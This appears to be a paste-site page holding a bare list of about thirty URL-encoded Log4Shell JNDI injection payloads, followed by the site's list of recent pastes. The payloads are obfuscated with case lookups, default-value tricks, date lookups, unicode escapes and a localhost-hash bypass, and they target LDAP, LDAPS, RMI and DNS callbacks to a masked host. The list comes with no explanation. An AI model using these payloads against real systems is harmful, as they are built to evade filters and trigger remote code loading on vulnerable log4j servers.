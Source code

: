 %24%7B%24%7buppeR:J%7dNdi:%24%7BuPPEr:l%7d%24%7BUPpER:D%7DA%24%7blOWEr:p%7D%24%7BUpPeR:s%7D://****/z%7d
%24%7b%24%7BlowER:J%7dNdI:%24%7blOwer:r%7d%24%7blOWER:m%7dA%24%7blowEr:i%7D://****/z%7d
%24%7b%24%7BUpPer:j%7dndi:%24%7buPpER:r%7d%24%7bUppEr:m%7Da%24%7BLOWER:I%7d://****/Z%7d
%24%7b%24%7bLoWer:J%7DNdi:%24%7BLOWeR:D%7D%24%7BlOWer:n%7da%24%7blOwer:S%7D://****/z%7D
%24%7b%24%7BuppER:J%7DNDI:%24%7buppeR:D%7d%24%7buPpeR:n%7DA%24%7bLOwer:S%7D://****/Z%7d
%24%7B%24%7B::-J%7d%24%7B::-n%7D%24%7b::-d%7D%24%7B::-i%7D:%24%7B::-L%7D%24%7b::-d%7D%24%7b::-A%7D%24%7b::-P%7d%24%7b::-s%7D://****/z%7d
%24%7B%24%7B::-j%7D%24%7B::-n%7d%24%7B::-D%7d%24%7B::-i%7d:%24%7b::-R%7d%24%7B::-m%7D%24%7B::-I%7D://****/Z%7D
%24%7B%24%7B::-J%7D%24%7B::-n%7d%24%7b::-d%7D%24%7B::-i%7d:%24%7B::-D%7d%24%7b::-n%7D%24%7B::-S%7d://****/z%7D
%24%7bjnd%24%7bSyS:SYS_nAMe:-i%7d:LdAP:/****/z%7D
%24%7BJnd%24%7bsYS:sYs_namE:-I%7d:LdaPs:/****/z%7D
%24%7bJnd%24%7BSYs:SyS_naME:-I%7D:RmI:/****/Z%7d
%24%7bJNd%24%7BsyS:SyS_Name:-I%7d:DNs:/****/Z%7D
%24%7Bj%24%7B%24%7b:-l%7D%24%7b:-o%7D%24%7b:-w%7D%24%7b:-e%7d%24%7b:-r%7d:n%7DDi:LdAp://****/Z%7d
%24%7Bj%24%7B%24%7B:-l%7D%24%7B:-O%7D%24%7B:-w%7D%24%7B:-E%7d%24%7b:-R%7d:N%7Ddi:lDaPS://****/z%7D
%24%7bj%24%7b%24%7B:-L%7D%24%7B:-o%7d%24%7B:-W%7d%24%7B:-e%7D%24%7b:-r%7d:N%7DDI:rmI://****/z%7d
%24%7bJ%24%7b%24%7b:-L%7d%24%7b:-O%7D%24%7B:-W%7d%24%7B:-E%7D%24%7B:-r%7D:N%7dDI:Dns://****/Z%7D
%24%7B%24%7bDaTe:'J'%7d%24%7BDAtE:'N'%7D%24%7BDAtE:'D'%7D%24%7BDATE:'i'%7D:%24%7bDatE:'L'%7D%24%7BDaTE:'d'%7d%24%7bDATE:'A'%7D%24%7BdAtE:'P'%7D%24%7bDate:'s'%7D://****/z%7D
%24%7b%24%7BdaTe:'J'%7d%24%7bDaTE:'n'%7d%24%7BdATE:'d'%7d%24%7bdatE:'i'%7D:%24%7BdaTE:'R'%7D%24%7bdaTe:'m'%7d%24%7bDate:'i'%7d://****/z%7D
%24%7b%24%7BDate:'j'%7d%24%7BdATe:'n'%7d%24%7BdATE:'D'%7D%24%7bDatE:'i'%7D:%24%7BdATe:'d'%7d%24%7BDAte:'N'%7D%24%7BdatE:'S'%7D://****/Z%7d
%24%7b%24%7bwhAT:eVER:-J%7D%24%7bsOMe:THiNg:-N%7d%24%7boTher:THiNG:-D%7D%24%7baND:lASt:-i%7D:ldaPS://****/Z%7D
%24%7B%24%7bWhat:EVER:-j%7d%24%7BSome:Thing:-n%7d%24%7BOthEr:thiNG:-d%7d%24%7baND:LaSt:-i%7D:RMi://****/Z%7D
%24%7b%24%7bWHaT:eVER:-J%7d%24%7bSomE:ThIng:-N%7d%24%7BOtHER:ThING:-d%7D%24%7Band:LAST:-I%7D:DnS://****/z%7D
%24%7B\u006a\U006e\u0064\u0069:ldAP://****/Z%7d
%24%7b\u006a\u006E\u0064\U0069:LDapS://****/Z%7D
%24%7b\u006a\u006e\u0064\u0069:Rmi://****/Z%7D
%24%7B\u006A\u006E\U0064\U0069:DnS://****/z%7d
%24%7BjNdi:LDAP://127.0.0.1#****/z%7d
%24%7BJnDI:LdAPs://127.0.0.1#****/Z%7D
%24%7Bjndi:Rmi://127.0.0.1#****/Z%7D
%24%7BjNdi:dNS://127.0.0.1#****/z%7d
Public Pastes
Matching Brackets
Java | 54 sec ago | 0.70 KB
Decimal to Binary
Java | 1 min ago | 0.59 KB
Simple Calculator
Java | 2 min ago | 1.03 KB
Browser History
Java | 2 min ago | 0.81 KB
Browser History
Java | 2 min ago | 0.78 KB
c64 asm notes frequencies table
6502 ACME Cross Assembler | 19 min ago | 2.88 KB
IncrementalReplacementMacro
VisualBasic | 30 min ago | 0.89 KB
darling make failure on mageia 8 x86_64
Bash | 33 min ago | 18.81 KB
